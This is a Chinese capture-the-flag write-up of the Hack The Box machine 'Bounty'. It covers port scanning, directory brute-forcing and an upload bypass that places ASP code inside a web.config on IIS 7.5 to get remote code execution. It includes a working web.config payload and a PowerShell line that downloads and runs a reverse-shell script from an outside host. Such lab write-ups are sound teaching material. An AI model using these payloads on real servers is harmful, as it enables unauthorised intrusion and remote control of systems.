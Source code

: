 # 免责声明
>本文渗透的主机经过合法授权。本文使用的工具和方法仅限学习交流使用，请不要将文中使用的工具和渗透思路用于任何非法用途，对此产生的一切后果，本人不承担任何责任，也不对造成的任何误用或损害负责。

# 服务发现
```
┌──(root💀kali)-[~/htb/Bounty]
└─# nmap -sV -Pn 10.10.10.93 -p-                                                                                                                                                                                                        1 ⨯
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-12-16 22:37 EST
Nmap scan report for 10.10.10.93
Host is up (0.27s latency).
Not shown: 65534 filtered ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 7.5
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 360.04 seconds

```

## 目录爆破
```
└─# gobuster dir -u http://10.10.10.93 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 30 -x aspx                    
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.93
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/Web-Content/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/12/16 22:44:15 Starting gobuster in directory enumeration mode
===============================================================
/transfer.aspx        (Status: 200)
/aspnet_client        (Status: 301) [Size: 156] [--> http://10.10.10.93/aspnet_client/]
/uploadedfiles        (Status: 301) [Size: 156] [--> http://10.10.10.93/uploadedfiles/]
                                                                                       
===============================================================
2021/12/16 22:46:25 Finished
===============================================================

```

transfer.aspx是一个文件上传页面,测试发现不可以直接上传aspx文件，可以上传jpg,png,gif等文件，但是不能上传asp文件

所有成功上传的文件都会到uploadedfiles下，不过这个目录下的文件过一段时间（几十秒）就会被删除

查了下IIS7.5下有一个畸形解析漏洞，但是好像无法复现

然后找到了[这篇文章](https://poc-server.com/blog/2018/05/22/rce-by-uploading-a-web-config/)

可以上传一个```web.config```文件，在注释里执行asp代码
```
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
   <appSettings>
</appSettings>
</configuration>
<!–-
<% Response.write("-"&"->")
Response.write("<pre>")
Set wShell1 = CreateObject("WScript.Shell")
Set cmd1 = wShell1.Exec("ipconfig")
output1 = cmd1.StdOut.Readall()
set cmd1 = nothing: Set wShell1 = nothing
Response.write(output1)
Response.write("</pre><!-"&"-") %>

-–>

```
上面文件上传以后访问```http://10.10.10.93/uploadedfiles/web.config```成功打印```ipconfig```命令
```
Windows IP Configuration


Ethernet adapter Local Area Connection:

   Connection-specific DNS Suffix  . : 
   IPv4 Address. . . . . . . . . . . : 10.10.10.93
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 10.10.10.2

Tunnel adapter isatap.{27C3F487-28AC-4CE6-AE3A-1F23518EF7A7}:

   Media State . . . . . . . . . . . : Media disconnected
   Connection-specific DNS Suffix  . : 

```

<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />         
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>
<!-- 
<%@ Language=VBScript %>
<%
  call Server.CreateObject("WSCRIPT.SHELL").Run("cmd.exe /c powershell.exe -c iex(new-object net.webclient).downloadstring('http://10.10.14.3/Invoke-PowerShellTcp.ps1')")
%>
-->


<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />         
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>
<!-- ASP code comes here! It should not include HTML comment closing tag and double dashes!
<%
Response.write("-"&"->")
' it is running the ASP code if you can see 3 by opening the web.config file!
Response.write(1+2)
Response.write("<!-"&"-")
%>
-->